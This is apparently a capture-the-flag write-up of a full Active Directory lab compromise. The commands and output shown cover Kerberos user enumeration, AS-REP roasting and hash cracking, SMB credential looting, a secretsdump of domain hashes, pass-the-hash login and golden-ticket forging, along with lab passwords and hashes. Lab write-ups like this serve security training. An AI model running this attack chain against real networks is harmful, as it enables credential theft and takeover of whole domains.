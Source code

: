 # Attacktive Directory

## Machine Info

NetBIOS computer name: ATTACKTIVEDIRE\
NetBIOS domain name: THM-AD

Domain SID: S-1-5-21-3591857110-2884097990-301047963\
DNS domain: spookysec.local\
FQDN: AttacktiveDirectory.spookysec.local\
Derived membership: domain member\
Derived domain: THM-AD





## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.10.206.190

Nmap scan report for 10.10.206.190
Host is up (0.040s latency).
Not shown: 53186 closed tcp ports (reset), 12323 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-15 10:38:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                         
49672/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                         
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                                                                                                           
49676/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                         
49679/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                         
49684/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                         
49702/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                         
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows 
```



## Initial Access

Enumerate the machine with enum4linux tool

```bash
enum4linux-ng 10.10.206.190
```

We discovered some Domain info like the name of DC, nome of domain, SID, ect...

### UserEnum with Kerbrute

With anonymous access we can enumerate the AD users using Kerbrute.

{% code overflow="wrap" %}
```bash
./kerbrute_linux_amd64 userenum -d THM-AD --dc AttacktiveDirectory.spookysec.local /PATH/TO/Attacktive_Directory/userlist.txt

2025/07/15 13:09:56 >  [+] VALID USERNAME:       james@THM-AD
2025/07/15 13:09:57 >  [+] VALID USERNAME:       svc-admin@THM-AD
2025/07/15 13:09:59 >  [+] VALID USERNAME:       robin@THM-AD
2025/07/15 13:10:06 >  [+] VALID USERNAME:       darkstar@THM-AD
2025/07/15 13:10:10 >  [+] VALID USERNAME:       administrator@THM-AD
2025/07/15 13:10:19 >  [+] VALID USERNAME:       backup@THM-AD
2025/07/15 13:10:23 >  [+] VALID USERNAME:       paradox@THM-AD
2025/07/15 13:16:40 >  [+] VALID USERNAME:       ori@THM-AD
```
{% endcode %}

### AS-REP Reasting with Impacket

We can use the GetNPUsers from impacket to extract the AS-REP Roastable users

{% code overflow="wrap" %}
```bash
impacket-GetNPUsers THM-AD/svc-admin -dc-ip 10.10.206.190 -dc-host THM-AD -no-pass

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@THM-AD:4897cbcf5ec5bbc589d456e653a21f86$e6653b9cc6b8f8aaac589646e1cc22ea067abc0cfd2073553c3aff3024ea5e4762fda4e258152a2f84d55e7eb5e2edede725e22f29651e1eb32abba4a62af64de8abe7a3a82aa392007805e04fef7e619e9f201dd009c93c69cc1f4296866bdf20969d68b3a81b8df9b5408571de5808ee38ebb31c1aa67e62ecd21adeabae01852cffce3dcb28da94b897ea2aa55c54290d95013e183f5e3e552a760dd1eb34494ee662fbf56e7d3aef9d03a01c44be99d1cf95b17569ae4cc3ef1dbe1ce0752de07ab89fdd75c33b2084d43b01f116dfc463ac4f1b331928582629007f7ac60f2ab3c4129d7629ff

```
{% endcode %}

Save this hash in a file and try to crack with Hashcat.

### Crack TGT with Hashcat

{% code overflow="wrap" %}
```bash
hashcat -m 18200 --force -a 0 tgt_tickets.txt passwordlist.txt

[..snip..]
$krb5asrep$23$svc-admin@THM-AD:720bfed21e57e3...:management2005
[..snip..]
```
{% endcode %}

We have crack the hash



## Enumeration with User Creds

With user's credentials we can do a more complete enumeration.

```bash
enum4linux-ng 10.10.206.190 -u 'svc-admin' -p 'management2005'
```

Now using specific tool we will enumerate all services

### SMB Shares

```bash
smbclient -L //10.10.206.190 -U "svc-admin%management2005"

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

Let's see the `backup` directory. Try to connect to it.

```bash
smbclient -N //10.10.206.190/backup -U "svc-admin%management2005"
```

```bash
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3945589 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Then, download and read the juicy file found.

```bash
cat backup_credentials.txt | base64 -d 
backup@spookysec.local:backup2517860
```

### Creds Dump with Impacket

Using the secredsdump tool of impacket we can dump the DC password with the backup user credentials.

{% code overflow="wrap" %}
```bash
impacket-secretsdump THM-AD/backup:backup2517860@10.10.206.190

[..snip..]

Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::.

[..snip..]

Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
```
{% endcode %}

### Perform Pass-The-Hash with Admin hash

```bash
evil-winrm -i 10.10.206.190 -u 'Administrator' -H '0e0363213e37b94221497260b0bcb4fc'

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

We pwnded the entire domain.



## Craft Golden Ticket

Domain SID: S-1-5-21-3591857110-2884097990-301047963

Administrator hash: 0e0363213e37b94221497260b0bcb4fc

NT hash krgtgt: 0e2eb8158c27bed09861033026be4c21

{% code overflow="wrap" %}
```bash
impacket-ticketer -nthash "0e2eb8158c27bed09861033026be4c21" -domain-sid "S-1-5-21-3591857110-2884097990-301047963" -domain "THM-AD" "backup" -groups 512 -user-id 1118
```
{% endcode %}

